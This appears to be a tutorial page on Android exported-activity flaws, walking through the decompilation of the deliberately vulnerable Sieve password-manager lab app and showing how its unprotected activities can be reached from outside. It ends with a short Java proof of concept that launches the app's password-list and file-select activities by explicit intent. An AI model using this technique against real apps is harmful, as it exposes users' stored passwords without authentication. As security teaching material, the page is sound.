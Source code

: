 # Exported Activity Hacking

1. **Retrieve the APK File**: Obtain the target APK file that you want to analyze.&#x20;

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

1.  **Install APK on the Android Emulator**

    &#x20;

    <figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
2.  **Decompile APK using Apktool**

    <figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
3.  **Decode APK Contents**

    <figure><img src="../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
4.  **Analyze** `AndroidManifest.xml`: Investigate the `AndroidManifest.xml` file to identify declared activities and their associated permissions, Notice that there is exported Activities.

    <figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
5.  **Exploration of Application Features**: Launch the application on the emulator to interact with its functionalities, Notice it is simple password manageer.

    <figure><img src="../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
6.  **Identify Authentication Requirements**: Note any authentication mechanisms required by the application, such as password length or two-factor authentication (2FA) PIN.

    <figure><img src="../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>
7.  **Access Password List Activity**: Discover the Password List Activity mentioned in the `AndroidManifest` file, where passwords and account details are managed&#x20;

    <figure><img src="../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>
8.  **Attempt to Access Exported Activities**: Use the Activity Manager (am start -n ) to try accessing exported activities from outside the application

    <figure><img src="../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>
9. **Investigate Potential Data Storage Locations**: Start file list activity and searching for any data leakage, but found nothing + i couldn't access other activities from there.
10. **Access Password List Activity**: Successfully access the Password List Activity from outside the application

    <figure><img src="../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption></figcaption></figure>
11. **Encounter Error Messages**: Encounter error messages when attempting to view or modify passwords due to a required service not being started.&#x20;

    <figure><img src="../.gitbook/assets/image (11) (1) (1).png" alt=""><figcaption></figcaption></figure>
12. **Examine Settings and Backup Options**: Investigate settings options within the application to create backups of passwords
13. **Discover Backup File Accessibility**: Find that backup files can be accessed via another exported activity, `com.mwr.example.sieve/.FileSelectActivity`


14. **Identify Security Vulnerability**: Realize that plaintext passwords are accessible without authentication, potentially exposing users to password theft through malicious apps.

    <figure><img src="../.gitbook/assets/image (12) (1) (1).png" alt=""><figcaption></figcaption></figure>
15. Example code for Exploit POC

```java
import android.content.Intent;
import android.os.Bundle;
import android.support.v7.app.AppCompatActivity;
import android.view.View;
import android.widget.Button;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        // Button to start FileSelectActivity
        Button fileSelectButton = findViewById(R.id.file_select_button);
        fileSelectButton.setOnClickListener(new View.OnClickListener() {
            @Override
            public void onClick(View v) {
                // Create an Intent to start the FileSelectActivity
                Intent intent = new Intent();
                intent.setClassName("com.mwr.example.sieve", "com.mwr.example.sieve.FileSelectActivity");
                startActivity(intent);
            }
        });

        // Button to start PWList Activity
        Button pwListButton = findViewById(R.id.pw_list_button);
        pwListButton.setOnClickListener(new View.OnClickListener() {
            @Override
            public void onClick(View v) {
                // Create an Intent to start the PWList Activity
                Intent intent = new Intent();
                intent.setClassName("com.mwr.example.sieve", "com.mwr.example.sieve.PWList");
                startActivity(intent);
            }
        });
    }
}
```
